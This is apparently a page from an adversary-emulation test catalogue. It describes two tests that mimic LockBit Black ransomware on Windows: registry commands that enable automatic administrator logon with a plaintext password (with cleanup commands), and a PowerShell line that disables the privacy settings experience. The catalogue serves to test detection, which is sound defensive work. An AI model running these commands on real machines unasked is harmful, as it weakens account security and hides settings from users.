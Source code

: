 ## Atomic Test #33 - LockBit Black - Use Registry Editor to turn on automatic logon -cmd

LockBit Black - Use Registry Editor to turn on automatic logon

**Supported Platforms:** Windows

**auto_generated_guid:** 9719d0e1-4fe0-4b2e-9a72-7ad3ee8ddc70

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_DWORD /d 1 /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /t REG_SZ /d Administrator /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /t REG_SZ /d contoso.com /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /t REG_SZ /d password1 /f
```

#### Cleanup Commands:

```cmd
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #34 - LockBit Black - Disable Privacy Settings Experience Using Registry -Powershell

LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows

**auto_generated_guid:** d8c57eaa-497a-4a08-961e-bd5efd7c9374

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty "HKCU:\Software\Policies\Microsoft\Windows\OOBE" -Name DisablePrivacyExperience -PropertyType DWord -Value 1 -Force
```
